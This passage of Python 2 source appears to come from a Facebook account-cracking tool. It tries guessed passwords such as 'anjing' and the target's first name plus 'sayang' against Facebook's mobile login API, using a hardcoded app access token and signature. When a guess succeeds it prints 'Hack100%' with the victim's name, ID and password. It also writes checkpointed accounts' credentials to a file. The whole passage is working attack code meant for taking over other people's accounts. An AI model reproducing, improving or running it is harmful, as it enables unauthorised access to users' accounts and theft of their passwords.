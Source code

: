 						                               print '\x1b[1;92m[•⊱✿⊰•] \x1b[1;92mPassword \x1b[1;91m: \x1b[1;91m' + pass5 + '\n'							
						                               oks.append(user+pass5)	
                                                                       else:
			                                                       if 'www.facebook.com' in q["error_msg"]:
				                                                   print '\x1b[1;93m[ ✖ ] \x1b[1;93mCheckpoint'
				                                                   print '\x1b[1;93m[•⊱✿⊰•] \x1b[1;93mName \x1b[1;93m    : \x1b[1;93m' + b['name']
				                                                   print '\x1b[1;93m[•⊱✿⊰•] \x1b[1;93mID \x1b[1;93m      : \x1b[1;93m' + user
				                                                   print '\x1b[1;93m[•⊱✿⊰•] \x1b[1;93mPassword \x1b[1;93m: \x1b[1;93m' + pass5 + '\n'
				                                                   cek = open("out/super_cp.txt", "a")
				                                                   cek.write("ID:" +user+ " Pw:" +pass5+"\n")
				                                                   cek.close()
				                                                   cekpoint.append(user+pass5)					
						                               else:								
							                           pass6 = 'anjing'											
			                                                           data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")												
			                                                           q = json.load(data)												
			                                                           if 'access_token' in q:	
								                           x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				                                                           z = json.loads(x.text)
				                                                           print '\x1b[1;91m[  ✓  ] \x1b[1;91mHack100%💉'											
				                                                           print '\x1b[1;92m[•⊱✿⊰•] \x1b[1;92mName \x1b[1;91m    : \x1b[1;91m' + b['name']											
				                                                           print '\x1b[1;92m[•⊱✿⊰•] \x1b[1;92mID \x1b[1;91m      : \x1b[1;91m' + user									
				                                                           print '\x1b[1;92m[•⊱✿⊰•] \x1b[1;92mPassword \x1b[1;91m: \x1b[1;91m' + pass6 + '\n'											
				                                                           oks.append(user+pass6)
                                                                                   else:
			                                                                   if 'www.facebook.com' in q["error_msg"]:
				                                                               print '\x1b[1;93m[ ✖ ] \x1b[1;93mCheckpoint'
				                                                               print '\x1b[1;93m[•⊱✿⊰•] \x1b[1;93mName \x1b[1;93m    : \x1b[1;93m' + b['name']
				                                                               print '\x1b[1;93m[•⊱✿⊰•] \x1b[1;93mID \x1b[1;93m      : \x1b[1;93m' + user
				                                                               print '\x1b[1;93m[•⊱✿⊰•] \x1b[1;93mPassword \x1b[1;93m: \x1b[1;93m' + pass6 + '\n'
				                                                               cek = open("out/super_cp.txt", "a")
				                                                               cek.write("ID:" +user+ " Pw:" +pass6+"\n")
				                                                               cek.close()
				                                                               cekpoint.append(user+pass6)	
						                                           else:							
								                               pass7 = b['first_name']+'sayang'						
								                               data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")						
								                               q = json.load(data)						
								                               if 'access_token' in q:		
				                                                                       x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				                                                                       z = json.loads(x.text)
									                               print '\x1b[1;91m[  ✓  ] \x1b[1;91mHack100%💉'					
									                               print '\x1b[1;92m[•⊱✿⊰•] \x1b[1;92mName \x1b[1;91m    : \x1b[1;91m' + b['name']					
									                               print '\x1b[1;92m[•⊱✿⊰•] \x1b[1;92mID \x1b[1;91m      : \x1b[1;91m' + user				
									                               print '\x1b[1;92m[•⊱✿⊰•] \x1b[1;92mPassword \x1b[1;91m: \x1b[1;91m' + pass7 + '\n'					
									                               oks.append(user+pass7)
                                                                                               else:
			                                                                               if 'www.facebook.com' in q["error_msg"]:
				                                                                           print '\x1b[1;93m[ ✖ ] \x1b[1;93mCheckpoint'
				                                                                           print '\x1b[1;93m[•⊱✿⊰•] \x1b[1;93mName \x1b[1;93m    : \x1b[1;93m' + b['name']
				                                                                           print '\x1b[1;93m[•⊱✿⊰•] \x1b[1;93mID \x1b[1;93m      : \x1b[1;93m' + user